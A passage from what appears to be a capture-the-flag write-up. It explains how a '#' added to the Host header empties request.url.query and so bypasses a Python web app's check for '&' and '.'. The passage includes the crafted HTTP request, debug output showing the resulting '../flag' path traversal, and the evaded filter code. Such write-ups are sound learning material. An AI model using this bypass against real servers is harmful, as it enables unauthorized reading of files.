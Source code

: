 For more simplicity look at the below request:

```
GET /view?2987bf4c72b6ade55901d57df14810f7=flag&/.. HTTP/1.1
Host: 34.146.195.115#
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
```

Did you notice the `#` appended in the `Host` header value?

Because of this `#` character , now `request.url.query` doesn't returns anything.



```python
>print("request.url.query: {}".format(request.url.query))
request.url.query:
Filename: flag
request.query_params: 2987bf4c72b6ade55901d57df14810f7=flag&%2F..=
request.query_params.keys(): dict_keys(['2987bf4c72b6ade55901d57df14810f7', '/..'])
Path: ./memo/2987bf4c72b6ade55901d57df14810f7/../flag
```

As `request.url.query` doesn't returns anything the if codition check is easily bypassed:

```python
if '&' in request.url.query or '.' in request.url.query or '.' in unquote(request.query_params[clientId]):
    print("You are caught")
    raise
```
